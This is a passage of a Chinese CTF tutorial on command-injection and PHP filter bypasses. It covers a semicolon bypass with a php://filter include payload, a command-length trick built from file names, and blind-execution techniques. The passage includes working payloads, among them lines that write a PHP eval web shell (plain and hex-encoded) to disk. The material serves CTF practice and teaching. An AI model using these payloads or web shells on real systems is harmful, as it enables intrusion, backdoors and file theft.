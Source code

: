 这道题过滤了分号，直接用?>来代替分号

```bash
include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018133007829.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)





##### 0x05 字符串长度受限

https://www.anquanke.com/post/id/87203

```java
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found
123456789101112
```

`\`是指换行
`ls -t`将文件按时间排序输出
`sh`命令可以从一个文件中读取命令来执行





##### 0x06 无回显

一，shell_exec等无回显函数。

判断：
`ls;sleep(3)`

利用：

1，复制，压缩，写shell等方法

```bash
copy flag.php 1.txt
mv flag.php flag.txt
cat flag.php > flag.txt
tar cvf flag.tar flag.php
tar zcvf flag.tar.gz flag.php
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
echo "<?php @eval(\$_POST[123]); ?>" > webshell.php
1234567
```
